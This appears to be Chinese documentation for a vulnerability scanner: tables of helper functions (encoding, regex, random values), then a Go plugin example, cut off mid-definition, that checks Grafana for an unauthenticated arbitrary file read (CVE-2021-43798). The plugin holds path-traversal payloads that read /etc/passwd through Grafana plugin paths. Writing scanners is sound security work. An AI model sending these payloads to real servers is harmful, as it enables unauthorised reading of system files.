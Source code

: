 ##### 编码转换

| 函数名       | 等效代码                                     | 说明                                            |
| ------------ | -------------------------------------------- | ----------------------------------------------- |
| md5          | `crypot.ToMD5(string(v1))`                   | 返回字符串 MD5 的编码结果                       |
| base64       | `crypot.Base64Encode(string(v1))`            | 返回字符串/字节数组 base64 的编码结果           |
| base64Decode | `base64.StdEncoding.DecodeString(string(v))` | 返回字符串/字节数组 base64 字符串的解码结果     |
| urlEncode    | ` url.QueryEscape(string(v))`                | 返回字符串/字节数组 url decode 的编码结果       |
| urlDecode    | `url.QueryUnescape(string(v))`               | 返回字符串/字节数组 url decode 字符串的解码结果 |

##### 正则表达式

| 函数名   | 等效代码                                     | 说明                                                                          |
| -------- | -------------------------------------------- | ----------------------------------------------------------------------------- |
| matches  | `regexp.MatchString(string(v1), string(v2))` | 正则表达式 v1 来匹配 v2，返回 bool 类型匹配结果                               |
| bMatches | `regexp.Match(string(v1), v2)`               | 正则表达式 v1 来匹配 v2，返回 bool 类型匹配结果，不同的是 bMatches 匹配字节流 |

##### 随机数

| 函数名          | 等效代码                                     | 说明                                   |
| --------------- | -------------------------------------------- | -------------------------------------- |
| randomInt       | `func randomInt(v1,v2 int) return int`       | 返回两个范围内的随机数                 |
| randomLowercase | `func randomLowercase(v1 int) return string` | 返回指定长度的小写字母组成的随机字符串 |

### 编写 GO 插件

如果生成的 yaml 插件无法满足需求，可以创建 go 文件，自己实现逻辑检测逻辑。下面是一个 Grafana 未授权任意文件读取漏洞检测插件的例子：

```go
package exploits

import (
  "fmt"
  "heartsk/scan/models"
  "heartsk/utils/netUtils"
  "heartsk/utils/randomUtils"
  "net/http"
  "strings"
  "time"
)

//init 注册插件插件
func init() {
	//payload
  path := []string{
    "public/static/plugins/alertGroups/////etc/passwd",
    "public/static/plugins/alertlist/////etc/passwd"}

  //注册插件
  models.Register(models.NewExploit{Info: models.AppVulInfo{
    App:   "Grafana",
    Query: "app=\"Grafana\"",
    Meta: models.VulMeta{
      Name:        "Grafana 未授权任意文件读取漏洞",
      Tags:        []string{"file_read"},
      Author:      "一曲成殇",
      Description: "Grafana 存在未授权任意文件读取漏洞，攻击者在未经身份验证的情况下可通过该漏洞读取主机上的任意文件。",
      Homepage:    "https://grafana.com/",
      Level:       4,
      References:  "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43798",
```